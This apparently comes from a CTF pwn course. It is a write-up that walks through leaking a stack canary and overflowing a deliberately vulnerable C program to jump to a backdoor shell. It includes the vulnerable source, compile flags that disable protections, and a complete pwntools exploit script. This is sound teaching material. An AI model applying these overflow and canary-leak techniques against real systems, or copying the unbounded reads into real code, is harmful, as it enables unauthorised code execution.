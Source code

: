 # Simple Buffer Overflow - 0x05(Leak Canary)
###### tags: `CTF` `PWN` `eductf`

## Canary Background
![](https://imgur.com/onxC8Aq.png)

## Original Code
```clike!
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

void backdoor()
{
    system("/bin/sh");
}

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    char name[0x10];
    char phone[0x10];

    printf("What's your name: ");
    read(0, name, 0x100);
    printf("Hello, %s !", name);

    printf("What's your phone number: ");
    read(0, phone, 0x100);

    return 0;
}
```

* Note that, if you establish the code yourself, you must turn off the protection by the command below and use `checksec` to observe the protection
    ```bash!
    gcc -o bof2_leak_canary bof2_leak_canary.c -zexecstack -no-pie -z norelro
    ```
    ![](https://imgur.com/u5iueTC.png)
    
## Exploit
* First, we can use `objdump -d -M Intel {filename}` to check the address of backdoor → `0x4011b6`
![](https://imgur.com/d30qIvL.png)
* However, we observe the backdoor function, it just call `system` instead of `execsv`. So, that you may encounter some error because of non-alignment. The solution is skip the `push %rbp` instruction and just jump to <font color="FF0000">`0x4011bb`</font>
    * The detailed description can refer to [lecture video](https://youtu.be/ktoVQB99Gj4?t=3058)
* Then we can construct a part of the payload below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    ```
* Then we have to overlap `name` variable and `phone` variable with length `0x20`. In addition, the compiler will align 8 bytes, we should overlap it as well. Moreover, the last byte of `canary` is always `0x00`, then if we'd like to print out `canary` value, we should overlap it as well.(In pwntools, `recvuntil` function default consider `0x00` is a new line)
    ```python!
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    ```

* Final step, we do what we done before to overlap padding + `phone` variable`(0x18)` + original canary`(0x08)` + original `$rbp``(0x08)` + overlap `$rip` to backdoor.
    ```python!
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```

* The whole payload is shown as below:
    ```python!
    from pwn import *

    context.arch = 'amd64'

    r = process('./bof2_leak_canary')
    raw_input()
    no_push_rbp_backdoor_addr = 0x4011bb
    r.sendafter("What's your name: ", b'a' * 0x29) #0x20 → name + phone / 0x08 for compiler alinment / 0x01 for canary last byte
    r.recvuntil('a'*0x29)
    canary = u64(b'\x00' + r.recv(7))
    print("canary: ", hex(canary))
    r.sendafter("What's your phone number: ", b'a' * 0x18 + p64(canary) + p64(0xdeadbeef) + p64(no_push_rbp_backdoor_addr))
    ```
* Then we got shell
![](https://imgur.com/9EGkDS0.png)

## Analysis
* About how to print canary:
Use `gdb` and execute to the first `print`, you can see that the stack structure.
![](https://imgur.com/usVpBMk.png)
![](https://imgur.com/6UDd5Po.png)
And we can print canary value from payload program → <font color="FF0000">`0xdf38469d4e106500`</font>
![](https://imgur.com/4tpr5M7.png)
    * Note that we can get `tls` address and `+0x28` to compare with canary value
    ![](https://imgur.com/gOMyuAq.png)


## Reference
[Lecture Vid. - Pwn week1](https://youtu.be/ktoVQB99Gj4)